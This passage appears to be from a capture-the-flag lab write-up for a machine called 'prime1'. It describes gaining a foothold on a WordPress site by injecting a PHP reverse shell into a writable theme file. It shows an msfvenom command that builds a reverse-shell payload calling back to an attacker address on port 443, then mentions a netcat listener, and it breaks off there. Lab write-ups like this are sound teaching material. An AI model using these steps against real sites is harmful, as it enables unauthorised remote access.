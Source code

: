 Then trying tu upload a php reverse shell in the theme editor, I find the secret.php file which is the only one with write permissions.

```bash
Appearance -> Theme Editor -> secret.php
```
![](/assets/images/prime1/screenshot-7.png)

I generate a php reverse shell with msfvenom, then inject it into the secret.php file and save it hitting the **Update File** button.

```bash
root@kali:~$ msfvenom -p php/reverse_perl LHOST=192.168.179.1 LPORT=443 -o shell.php
```
![](/assets/images/prime1/screenshot-8.png)

Later set up a netcat listener on port 443 and request with curl the secret.php file, giving us a reverse shell, as shown below:
